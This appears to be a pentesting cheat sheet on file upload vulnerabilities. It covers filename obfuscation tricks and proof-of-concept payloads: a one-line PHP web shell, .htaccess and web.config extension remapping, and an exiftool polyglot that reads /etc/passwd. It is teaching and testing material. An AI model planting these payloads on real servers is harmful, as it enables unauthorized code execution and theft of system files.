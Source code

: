 # File Upload Vulnerabilities
Uploading malicious files to a server can cause major damage. The impact depends on two key factors:
- Which aspect of the file the website fails to validate properly, size, type, contents, name, etc
- What restrictions are imposed on the file once it has been successfully uploaded

If the file is stored for a short amount of time to parse and validate it, it might be possible to execute it in that short window ([race conditions](./race.md)). When the filename is pseudo-randomized, you can try brute forcing it. Upload large files to let the parsing take as long as possible.

When remote code execution is not reachable, file upload may still be exploitable. 
- Maybe it is possible to upload javascript files that execute client-side for stored [xss](./xss.md) attacks
- Or if the server parses XML-based files, it might be possible to exploit some [xxe](./xxe.md) injection
- Sometimes you can upload files with the `PUT` method, if it does not have the correct defenses. Test if `PUT` is allowed with the `OPTIONS` method

### Improper filetype validation
-> Upload a webshell to get (full) access to the server

- Sometimes the [`Content-Type`](https://beeceptor.com/docs/concepts/content-type/) header is implicitly trusted by the server
- Use polyglot files to get remote code execution, while still uploading valid (e.g.) image files [PoC](#polyglot)

### Improper filename validation
-> Overwriting critical files by upload files with the same name

- Sometimes also [path traversal](./path_traversal.md) to upload files to trusted internal directories

Ways of **obfuscating** filenames, file extensions, and file path traversal sequences:
- Multiple extensions `file.php.jpg`
- Trailing characters `file.php.`
- URL encoded `.` (%2e), `/` (%2f), and `\` (%5c). Or double encoded using %25 -> `%`
- Semicolons or null byte before extension `file.php;.jpg`, `file.php%00.jpg`
- Add extra file extension in the middle if it is stripped non-recursively `file.p.phphp`

### Improper size thresholds
-> DoS attack by uploading very big files

## Proof of Concepts

### Web Shell | PHP
```php
<?php echo system($_GET['command']); ?>
```

### Overriding Configurations
Now, the `.l33t` extension is mapped to the executable php mimetype. Filename: `web.config`.
```xml
<staticContent>
    <mimeMap fileExtension=".l33t" mimeType="application/octet-stream" />
</staticContent>
```
Or use this to make configuration changes on a per directory basis in Apache HTTP Server. Filename: `.htaccess`, Content-Type: `text/plain`.
```txt
AddType application/x-httpd-php .l33t
```

### Polyglot
Create a polyglot using `exiftool` in linux terminal.
```sh
exiftool -Comment="<?php echo 'START: ' . file_get_contents('/etc/passwd') . ' :END'; ?>" image.jpg -o polyglot.php
```